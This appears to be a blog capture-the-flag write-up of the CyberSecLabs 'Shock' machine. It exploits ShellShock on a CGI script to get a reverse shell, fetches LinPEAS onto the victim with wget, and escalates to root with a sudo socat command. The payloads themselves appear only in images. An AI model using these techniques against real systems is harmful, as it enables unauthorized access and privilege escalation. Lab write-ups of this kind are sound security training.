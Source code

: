```yaml
---
layout: page
title: Shock - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/shock.html
---
```


# Shock - CyberSecLabs
----

- OS: Linux
- Level: Easy
- Vulns Found: 2


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.3`

![image](https://user-images.githubusercontent.com/50459517/102672581-cb602200-4156-11eb-8dc0-56c5dcf085d2.png)

We see we have a few ports open.  21, 22 and 80.  I normally like to check out port 80 first, do a scan for directories and check other ports while that's running.  Lets see what's on port 80.

![image](https://user-images.githubusercontent.com/50459517/102672611-e16de280-4156-11eb-8149-f8f67cb0bdd5.png)

After some manual enumeration of the webpages and source code, nothing seems to jump out at me.  So lets scan for some directories.  I like to use **dirsearch** for this, but any directory busting tool should work just fine.

`dirsearch -u http://172.31.1.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 400,500 -e php,txt,html -f -t 100`

While that is running, lets look at port 21 and see if we can anonymously log in.

![image](https://user-images.githubusercontent.com/50459517/102672633-f480b280-4156-11eb-91e2-4c65a38b7dd1.png)

Login seems to fail.. I also did some quick searches with google and searchsploit for known exploits on vsFTPd 3.0.3 but didn't find anything that jumped out at me.

![image](https://user-images.githubusercontent.com/50459517/102672677-12e6ae00-4157-11eb-92ca-19c9819f673b.png)

With our scan complete, I see a directory called **cgi-bin** that jumps out at me, this directory often stores various scripts that the Apache server can use the CGI interface to execute.  So I usually like to do a quick scan for `.cgi` scripts in this directory however if I get stuck I may search for other extensions such as `.py` or `.pl` as well.

`dirsearch -u http://172.31.1.3/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 400,500 -e cgi -f -t 100`

Right away we see a file called **test.cgi**.  Now if we do a quick search for "Apache cgi script exploits" we may find a few things, however the one that sticks out to me is called ShellShock.  This is because the name of the box is called Shock as well as the HTML Title is called "Steak House Shock".  So I believe this may be vulnerable to the ShellShock vulnerability.

Now ShellShock is a vulnerability in certain versions of Bash that takes advantage of the way bash handles environment variables.  You can trick bash into executing code that is being passed into the environment variable rather than just storing the data.  Here is a nice little screenshot from Symantec explaining this better.

![image](https://user-images.githubusercontent.com/50459517/102672758-5fca8480-4157-11eb-95fa-67fb546522eb.png)

Also I found a great PoC at this website explaining how it works and how to test for it.  Lets try this out.

[https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/#:~:text=Shellshock is a security bug causing Bash to,the server%2C also known as remote code execution](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/#:~:text=Shellshock%20is%20a%20security%20bug%20causing%20Bash%20to,the%20server%2C%20also%20known%20as%20remote%20code%20execution)

I opened Burp Suite and sent **http://172.31.1.3/cgi-bin/test.cgi** to the Burp Proxy so I can mess around with the GET request.

![image](https://user-images.githubusercontent.com/50459517/102672823-8983ab80-4157-11eb-8a92-452dd49661ac.png)

Now we can send this to Repeater and see what our Response looks like.

![image](https://user-images.githubusercontent.com/50459517/102672853-9f916c00-4157-11eb-8718-7d0d33f64950.png)

Now like we saw in the article, lets modify the Referer: header in the Request (In this case we will need to add this header) and see if we get code execution.

![image](https://user-images.githubusercontent.com/50459517/102672873-b20ba580-4157-11eb-9fb7-bac5355f3e78.png)

Awesome!  We have code execution!  Lets get that shell now!

We will use just a basic bash one liner to send a request to use on port 1337 and start a netcat listener on our machine that will listen for the request.  Thus resulting in a reverse shell.

![image](https://user-images.githubusercontent.com/50459517/102672900-c6e83900-4157-11eb-819d-59b4a99f4941.png)

![image](https://user-images.githubusercontent.com/50459517/102672934-db2c3600-4157-11eb-8d2e-d5655d299e7d.png)

Now we have a shell as www-data.  After looking around we find a user named scott.  In his home directory we find **access.txt** which we have permissions to read.

![image](https://user-images.githubusercontent.com/50459517/102672947-e717f800-4157-11eb-89d5-aa3c19b5d8e5.png)

With that out of the way, I normally like to run some type of post-enumeration script line LinPEAS.  We can just host up the file with **python -m SimpleHTTPServer 80** on our machine and then `wget http://ip/linpeas.sh` onto the victim machine in a directory we have rwx permissions in (i.e. /tmp)

![image](https://user-images.githubusercontent.com/50459517/102673038-2d6d5700-4158-11eb-9eb9-a0523ab69804.png)

Now lets run the file and see what it finds for us.

![image](https://user-images.githubusercontent.com/50459517/102673060-3d853680-4158-11eb-86cb-a0038444b4a5.png)

Unfortunately I had some issues with the script stopping at Internet Access checks and forcing me to stop the script.  I troubleshooted this for a little bit before deciding to move on as I think it may have been something with the machine timing out during this check.

Anyways I decided to do a little manual enumeration before trying another script.  Luckily I found something first thing!  I ran **sudo -l** to list anything I may have permissions to run as a sudo user.

![image](https://user-images.githubusercontent.com/50459517/102673082-4d047f80-4158-11eb-9532-fff36f7a688d.png)

As you can see, we have permissions to run socat as root with no password.  Great!  Lets check GTFOBins to see if we can escalate our privileges.

[https://gtfobins.github.io/](https://gtfobins.github.io/)

Per GTFOBins, we see we can run **sudo socat stdin exec:/bin/sh** to escalate our privileges.  This works because we have permission to run the socat utility as root with no password needed.  The option **stdin**(Standard Input) uses a file descriptor of 0 and **exec:/bin/bash** means it will execute a bash terminal at the end of the pipe.  So if I understand it correctly, instead of using socat to connect to or listen in on a connection from another host, we are just passing the /bin/bash script into our terminal.  And since we are running this as root, we will open a terminal instance as root, thus resulting in use escalating our privileges.

![image](https://user-images.githubusercontent.com/50459517/102673108-686f8a80-4158-11eb-94d1-7fb4b2343874.png)

And that's it!  This was a fun little box that shows a pretty straight forward vulnerability in ShellShock as well as a common mis-configuration seen with allow low level users to run certain programs/files as elevated users.
